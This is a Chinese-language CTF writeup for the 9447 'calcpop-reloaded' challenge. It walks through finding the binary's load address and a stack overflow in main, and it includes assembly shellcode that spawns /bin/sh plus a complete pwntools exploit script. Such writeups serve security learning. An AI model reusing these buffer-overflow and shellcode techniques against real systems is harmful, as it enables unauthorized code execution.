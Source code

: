 ```yaml
---
title: 'Writeup-9447 CTF: calcpop-reloaded'
layout: post
categories: blog
tags: [Hack, CTF, Writeup, Exploitation]
share: true
---
```


*这一题开始 9447 加上了 POF, 其实只要爆破就可以，这里就不放脚本了。（关于 POF, 有个叫 hashcash 的东西，挺有意思的）*

这道题我没有在比赛期间做出来。当时完全没有逆向 load address 未知的二进制的经验，什么都干不了。后来简单看了别人的 writeup，在只知道逆向方法的情况下重新做出了这题。前后大概还是花了七八小时（我好渣...），硬着头皮写篇 writeup 记录一下。

### Load Address
找 load address 的过程大概是先用 radare 打开，然后翻反汇编代码，可以找到`mov eax, 0x1007a7`这类代码，大概可以猜出 load address 在 0x100000.

用 IDA 打开，填好 load offset, 开始调试。可以猜出 main 函数(?)的位置大概在 0x1008bc.

### Overflow
接下来找溢出点。可以看到 0x001008EE 处调用了输入函数，分配栈空间是 0x98, 但是传递了一个大概是 size 的参数，值为 0x100. 存在溢出。

这题和 calcpop 有一点不同的是，calcpop 中输入 exit 会直接退出 main 函数，这题输入 exit 会调用`shutdown()`之类的函数，没细看，效果就是不会再有输出了。这道题退出 main 函数的方法是，正确输入，让计算结果为 201527, 程序会输出彩蛋信息，然后退出 main 函数。

接下来就是怎么溢出了，先看 main 函数入口和出口处的栈变化：
{% highlight asm %}
# entry:
lea     ecx, [esp-4]
and     esp, 0FFFFFFF0h
push    dword ptr [ecx-4]
push    ebp
mov     ebp, esp
push    edi
push    esi
push    ebx
push    ecx

# exit:
lea     esp, [ebp-10h]
xor     eax, eax
pop     ecx
pop     ebx
pop     esi
pop     edi
pop     ebp
lea     esp, [ecx-4]
retn
{% endhighlight %}

溢出到保存 ecx 的位置，使 ecx - 4 指向存有 shellcode 地址的栈位置，然后 ret 就能跳转到 shellcode.

### Shellcode
这题怎么写 shellcode 也是一个难点，因为系统是 9447 写的，不能直接用 execv 系统调用。所幸的是本题的系统调用功能都是能从一些字符串上看出来的。比如`read(%d %x %d)`, `write(%d %x %d)`之类。strings 一下可以看到`spawn(%x %x %d)`，我就猜测这个是类似 execv 的系统调用。可是参数不明确，特别是第三个参数。试了几次，发现用`spawn("/bin/sh", "/bin/sh", 1)`这样的参数是可以成功的，第三个参数 1 具体是什么含义，我也没搞明白。

用 pwntool 生成的 shellcode 如下:
{% highlight asm %}
# push '/bin/sh\x00'
push 0x1010101
xor dword ptr [esp], 0x169722e
push 0x6e69622f
mov edi, esp

push 0x1
push edi
push edi
push 0xdeadbeef  # junk
mov ebx, 302125832
xor ebx, 0x12121212
call ebx  # spawn(%x, %x, %d)
{% endhighlight %}

### exp.py

可以用 redos 中的 level1 本地调试。
{% highlight python %}
#!/usr/bin/env python
# coding=utf8

from pwn import p32, remote, context, asm, shellcraft

import sys

context.arch = 'i386'

p = remote('localhost', 9447)

p.recvuntil('Welcome to calc.exe\n')

p.sendline('get_buf_addr')
buf_addr = int(p.recvline().split()[-1], 16)
ecx_set = buf_addr + 0x98 - 16 - 4 + 4
shellcode_addr = buf_addr + 0x98 - 16 - 4 + 4*2 + 0x20

shellcode_str = (
    '''
    {}
    mov edi, esp
    {}
    push edi
    push edi
    push 0xdeadbeef  /* junk */
    mov ebx, {}
    xor ebx, 0x12121212
    call ebx  # spawn(%x, %x, %d)
    '''.format(shellcraft.i386.pushstr('/bin/sh'),
               shellcraft.i386.push(1),
               0x10011a ^ 0x12121212)
)
print shellcode_str
shellcode = asm(shellcode_str)

payload = 'A' * (0x98 - 16 - 4) + \
    p32(shellcode_addr) + \
    p32(ecx_set) + 'A' * 0x20 + \
    shellcode

if '\n' in payload or '\x00' in payload:
    print 'newline or zero byte found in payload'
    sys.exit(1)

p.sendline(payload)
p.sendline("201527 0")

p.interactive()
{% endhighlight %}
